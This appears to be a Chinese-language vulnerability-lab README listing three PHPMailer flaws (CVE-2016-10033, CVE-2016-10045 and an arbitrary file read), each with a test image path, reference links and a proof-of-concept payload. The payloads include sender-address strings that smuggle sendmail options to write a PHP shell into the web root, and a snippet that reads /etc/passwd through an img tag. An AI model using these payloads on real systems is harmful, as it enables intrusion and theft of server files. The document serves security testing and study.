## CVE-2016-10033 - PHPMailer < 5.2.18 Remote Code Execution

测试镜像

* src/phpmailer/5.2.17/

参考链接

* [PHPMailer 命令执行漏洞（CVE-2016-10033）分析](https://blog.chaitin.cn/phpmailer-cve-2016-10033/)

Poc - from 头

```
a( -OQueueDirectory=/tmp -X/var/www/html/y.php )@qq.com
```

## CVE-2016-10045 - PHPMailer < 5.2.20 Remote Code Execution / escapeshell bypass

测试镜像

* src/phpmailer/5.2.17/

参考链接

* [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)

Poc - from 头

```
a'( -OQueueDirectory=/tmp -X/var/www/html/x.php )@qq.com
```

## attachment 任意文件读取特性 

测试镜像

* src/phpmailer/5.2.21/

影响版本

* <= 5.2.21

参考链接

* [PHPMailer任意文件读取漏洞分析（CVE-2017-5223）](http://www.freebuf.com/vuls/124820.html)

Poc - 在邮件正文里使用 `<img>` 标签，获取任意文件

```
$mail->AddAttachment('test.txt', 'test.txt');
$mail->IsHTML(true);
$msg="<img src='/etc/passwd'>test";
$mail->msgHTML($msg);
```


